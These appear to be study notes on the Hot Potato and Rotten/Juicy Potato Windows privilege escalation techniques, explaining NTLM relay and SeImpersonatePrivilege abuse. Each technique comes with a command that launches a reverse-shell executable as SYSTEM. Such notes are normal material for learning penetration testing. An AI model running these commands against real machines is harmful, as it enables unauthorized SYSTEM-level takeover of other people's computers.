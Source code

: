 Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges.
The attack tricks Windows into authenticating as the SYSTEMuser to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.
*This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.*


```cmd
.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true

```
-enable_httpserver : starts a fake HTTP server to intercept HTTP redirects for Win updates and
then grabs credentials by forcing to Window to reauthenticate and sends us the credentials via SMB
-enable_exhaust : starts exhausting UDP ports
-enable_spoof : enables NBS spoofer so DNS starts failing 

## Rotten/Juicy Potato

Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly.
Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.
This was possible because service accounts usually have the *SeImpersonatePrivilege* privilege enabled

For eg. IIS Runs with the privilegs of a service account , we can get a reverse shell from it


```cmd

C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-
49b8-abc6-03dd84127020}
```
For valid CSIDs visit this link
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md




